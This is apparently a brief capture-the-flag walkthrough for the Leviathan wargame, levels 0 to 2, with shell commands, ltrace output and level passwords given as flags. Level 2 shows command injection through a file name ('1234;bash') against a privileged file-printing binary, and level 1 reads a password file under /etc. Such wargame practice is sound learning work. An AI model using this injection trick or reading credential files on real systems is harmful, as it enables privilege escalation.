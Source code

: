 # Leviathan0
``` 
cd ./.backup
cat * | grep leviathan
```
flag:rioGegei8m
# Leviathan1
```
ltrace check
./check 
./check 
cat /etc/leviathan_pass/leviathan2
```
flag:ougahZi8Ta
# Leviathan2
```
mkdkir /tmp/test1
cd /tmp/test1
ltrace~/printfile /etc/passwd
```
The program output:
```
__libc_start_main(0x804852b, 2, 0xffffd744, 0x8048610 <unfinished ...>
access("/etc/passwd", 4)                                                  = 0
snprintf("/bin/cat /etc/passwd", 511, "/bin/cat %s", "/etc/passwd")       = 20
geteuid()                                                                 = 12002
geteuid()                                                                 = 12002
setreuid(12002, 12002)                                                    = 0
```
In line 3, We can use ; in filename to inject code.
filename : 1234;bash

flag:Ahdiemoo1j